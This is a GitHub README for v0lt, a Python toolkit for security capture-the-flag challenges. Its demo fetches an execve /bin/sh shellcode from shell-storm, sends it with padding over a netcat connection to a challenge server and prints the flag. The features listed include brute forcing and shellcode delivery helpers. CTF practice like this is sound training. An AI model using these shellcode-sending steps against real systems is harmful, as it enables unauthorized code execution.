 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style.
A lot of exercises were solved using bash scripts but Python may be
more flexible, that's why.
Nothing to do with Gallopsled. It's a toy toolkit, with small but
specific utils only.

##Requirements and Installation
####Dependencies:
* Libmagic
* Python3
  * BeautifulSoup
  * Requests
  * filemagic
  * hexdump
  * passlib

####Installation:
```Bash
# for v0lt install
git clone https://github.com/P1kachu/v0lt.git
cd v0lt
[sudo] python3 setup.py install # sudo is required for potentially missing dependencies
```

##Demo: Shellcodes
```Python
>>> from v0lt import *
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read())
GIVE ME SHELLCODZ
>>> shellhack = ShellCrafter(4096, "bin","execve")
>>> shellhack.get_shellcodes(shellhack.keywords)

...<SNIPPED>...
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
...<SNIPPED>...

Selection: 86
Your choice: http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"

>>> nc.shellcat(shellhack.shellcode)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:
File name too long
P1kaCTF{sh3llc0de_1s_e4zY}
```
##Implemented:
* Crypto
    * Base64
    * Ceasar shift
    * Hashing functions (SHA, MD5)
    * Bits manipulations (XOR, inverse XOR)
    * Usual conversions (bytes, strings, hex)
    * RSA basics (inverse modulo, inverse power, egcd...)
    * Bruteforcing (Dictionnary, custom word)

* Shellcodes
    * Shellcode selection and download from Shell-storm repo
    * Shellcode formater
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support
    * Netcat
    * Telnet

And more
Examples are available ![here](./v0lt/examples.py)

